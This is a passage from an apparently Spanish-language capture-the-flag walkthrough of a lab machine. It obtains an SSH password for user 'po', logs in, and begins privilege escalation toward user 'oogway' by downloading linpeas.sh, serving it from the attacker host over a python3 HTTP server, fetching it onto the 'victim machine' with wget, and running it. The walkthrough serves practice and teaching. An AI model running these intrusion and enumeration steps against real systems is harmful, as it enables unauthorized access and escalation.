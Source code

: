 <figure><img src="../../.gitbook/assets/image (354).png" alt=""><figcaption></figcaption></figure>

Ahora pondremos la palabra secreta y le daremos al boton, con ello veremos lo siguiente:

<figure><img src="../../.gitbook/assets/image (355).png" alt=""><figcaption></figcaption></figure>

Vemos que ha funcionado y nos muestra otra palabra la cual puede ser la contraseña del usuario `po` para conectarnos por `SSH`, por lo que haremos lo siguiente:

### SSH

```shell
ssh po@<IP>
```

Metemos como contraseña `!ts-bl4nk` y veremos que estamos dentro.

## Escalate user oogway

Vamos a enumerar el sistema lanzando el famosos script de `linpeas.sh`, primero nos lo descargaremos en nuestra maquina `host` de la siguiente forma:

URL = [GitHub Linpeas.sh](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)

```shell
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```

Y ahora abriremos un servidor de `python3` para pasarnoslo de la siguiente forma:

> HOST

```shell
python3 -m http.server 80
```

> MAQUINA VICTIMA

```shell
wget http://<IP>/linpeas.sh
```

Echo esto le daremos permisos de ejecuccion al script y seguidamente lo ejecutaremos de una:

```shell
chmod +x linpeas.sh | bash linpeas.sh
```
